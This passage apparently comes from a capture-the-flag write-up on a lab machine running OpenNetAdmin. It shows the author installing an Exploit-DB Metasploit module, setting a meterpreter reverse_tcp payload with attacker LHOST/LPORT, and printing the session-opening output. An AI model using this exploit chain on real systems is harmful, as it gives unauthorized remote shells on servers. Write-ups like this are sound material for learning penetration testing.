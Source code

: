 and then i checked in google that there is RCE vulnerability in this version in exploit-db with metasploit [here](https://www.exploit-db.com/exploits/47772)
so i download it and put in in my metasploit module
```
cp opennetadmin.rb /opt/metasploit-framework/embedded/framework/modules/exploits/linux/http/
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
### [](#header-3)3- Exploitation

after adding the module in metasploite. now i run it and try to get meterpreter session.

```
msf5 exploit(linux/http/opennetadmin) > show options 

Module options (exploit/linux/http/opennetadmin):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.171     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /ona/login.php   yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.15.33      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf5 exploit(linux/http/opennetadmin) > exploit

[*] Started reverse TCP handler on 10.10.15.33:4444 
[*] Exploiting...
[*] Sending stage (3021284 bytes) to 10.10.10.171
[*] Command Stager progress - 100.12% done (809/808 bytes)
[*] Meterpreter session 1 opened (10.10.15.33:4444 -> 10.10.10.171:37090) at 2020-02-14 08:24:43 -0500

meterpreter > 

```
and BOOM!

